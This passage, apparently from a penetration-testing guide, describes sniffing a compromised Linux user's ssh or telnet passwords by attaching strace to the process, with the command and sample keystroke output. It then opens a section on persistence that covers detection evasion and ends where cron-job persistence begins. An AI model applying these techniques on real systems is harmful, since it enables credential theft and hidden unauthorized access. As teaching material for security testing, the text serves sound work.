 Typically installing key logging software on a Linux box requires root access, but if you have
compromised a user account, you can wait for the user to use a tool that uses interactive
authentication such as ssh, telnet, etc, and use a built-in tool (if installed) called strace. Here are the
steps:

1. Write a script that monitors for the user to execute a command such as ssh, telnet, etc. and
    attaches to that process using the command: strace -e read -p PID_OF_PROCESS
2. After attaching the strace command has the process the keystrokes will be dumped as they are
    entered by the user (read events "-e read").

This is an example of what the output of attaching to a spawned SSH connection:

```
strace -e read -p 7532
strace: Process 7532 attached
read(4, "P", 1) = 1
read(4, "a", 1) = 1
read(4, "$", 1) = 1
read(4, "$", 1) = 1
read(4, "w", 1) = 1
read(4, "0", 1) = 1
read(4, "r", 1) = 1
read(4, "d", 1) = 1
read(4, "\n", 1) = 1
*** OUTPUT OMMITED ***
```
The reason that you have to script and monitor this is because you have to attach to the process
immediately before the password is typed. It doesn’t capture past events.


You can only attach to processes to which you have permissions, so you have to be authenticated as
the user who is attempting the authentication.


**Persistence**

Persistence can be defined as any technique that allows an actor to restore interactive access to a
system after it is lost.

**Persistence Considerations**

- What is the purpose for persistence?
    ◦ Penetration test
    ◦ Offensive cyber operations
- Detection – Avoid detection in creating persistence
    ◦ Use system tools for persistence
    ◦ Throttle network usage or obfuscate it to blend in
- Discovery – Avoid detection after creating persistence

**Cron Jobs for Persistence**

The location and format of the cron files were discussed earlier in privilege escation. The only
change here is that your user context is already root and are now going to use cron to maintain

## Persistence.  
